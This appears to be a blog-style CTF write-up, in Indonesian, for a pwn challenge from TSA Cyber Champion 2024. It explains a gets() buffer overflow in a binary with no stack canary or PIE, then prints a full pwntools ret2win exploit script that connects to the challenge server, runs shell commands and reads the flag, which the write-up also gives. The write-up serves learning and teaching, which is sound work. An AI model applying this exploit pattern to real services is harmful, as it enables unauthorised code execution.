









+++
date = '2024-11-10T19:00:07+07:00'
draft = false
title = '[TSA Cyber Champion 2024] - Pwn'
tags = [
    "PWN",
    "Buffer Overflow",
    "Ghidra",
    "CTF",
    "ROP"
]
categories = [
    "PWN",
    "CTF Writeup"
]
image = "image-37.png"
+++

## Deskripsi Soal



Di soal ini, diberikan sebuah _source code_ dan juga server yang bisa saya hubungkan. Ketika saya coba akses servernya, tampilannya seperti ini:



Lalu, saya cek kode PWN-nya. Kode PWN ini adalah ELF 64-bit dengan karakteristik sebagai berikut:



Dari informasi tersebut, ada beberapa hal yang perlu diperhatikan:

- Tidak ada stack canary (memungkinkan _buffer overflow_).
- No PIE (alamat fungsi tetap/tidak random).
- Stack executable (memungkinkan eksekusi shellcode).

## Analisis Program

Saya menganalisis program ini menggunakan Ghidra.

Hasil decompile pada fungsi `main` menunjukkan bahwa program meminta input nama user menggunakan fungsi `gets()`, yang rentan terhadap _buffer overflow_:



Selain itu, ada juga fungsi `secret`.





Fungsi `secret` ini tidak dipanggil dalam program normal. Jadi, tujuan kita adalah memanggil fungsi ini.

## Eksploitasi

Saya akan melakukan eksploitasi dengan tahapan sebagai berikut:

1.  **Menghitung Offset:**

    - Buffer size: 128 bytes
    - Saved RBP: 8 bytes
    - Total offset: 136 bytes

2.  **Mendapatkan Alamat Fungsi dan Gadget:**

    Saya menggunakan pwntools untuk mendapatkan alamat fungsi `secret` dan gadget `ret`.

    ```python
    secret_addr = elf.symbols['secret']
    ret = rop.find_gadget(['ret'])[0]
    ```

3.  **Membuat Payload:**

    Saya membuat payload untuk melakukan _buffer overflow_ dan memanggil fungsi `secret`.

    ```python
    padding = b"A" * 136
    payload = flat([
       padding,
       p64(ret),
       p64(secret_addr)
    ])
    ```

4.  **Eksploitasi:**

    Saya mengirim payload ke server dan berinteraksi untuk mendapatkan flag.

    ```python
    io = remote(HOST, PORT)
    io.recvuntil(b"Nama: ")
    io.send(payload)
    io.interactive()
    ```

Berikut adalah _script exploit_ lengkap yang saya gunakan:

```python
from pwn import *
# setting
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 64
context.log_level = 'debug'
# koneksi details
HOST = "0.cloud.chals.io"
PORT = 32229
# load binary
elf = ELF('./pwn')
# dapatkan alamat fungsi secret
secret_addr = elf.symbols['secret']

print(f"[*] Secret function address: {hex(secret_addr)}")

# cari ROP gadget untuk stack alignment
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]

print(f"[*] RET gadget address: {hex(ret)}")

def create_payload():
   # fuffer overflow payload dengan stack alignment
   padding = b"A" * 136  # Buffer + saved rbp (bisa disesuaikan)
   # stack alignment + return to secret
   payload = flat([
       padding, # padding sampai return address
       p64(ret), # stack alignment
       p64(secret_addr) # alamat fungsi secret
   ])

   return payload

def exploit():
   try:
       # koneksi ke server
       io = remote(HOST, PORT)
       # terima prompt
       print(io.recvuntil(b"Nama: ").decode())

       # buat dan kirim payload
       payload = create_payload()
       print(f"[*] Sending payload of length: {len(payload)}")
       io.send(payload)

       sleep(0.5)

       # kirim beberapa perintah untuk memastikan shell aktif
       io.sendline(b"echo 'Shell aktif'")
       io.sendline(b"ls -la")
       io.sendline(b"cat flag.txt")

       # interactive mode
       io.interactive()

   except EOFError:
       print("Got EOF. Connection closed.")
   except Exception as e:
       print(f"Error: {str(e)}")
   finally:
       io.close()

if __name__ == "__main__":
   exploit()
```

## Hasil

Setelah menjalankan _script exploit_, berhasil mendapatkan akses shell!



Saya melihat ada sebuah file bernama `flag.txt`.



Saya coba baca isi file `flag.txt`.



## Solusi

**Flag:** `TSA{PWN_101_2d2de462ebe19a876eb74b1c9c053120}`
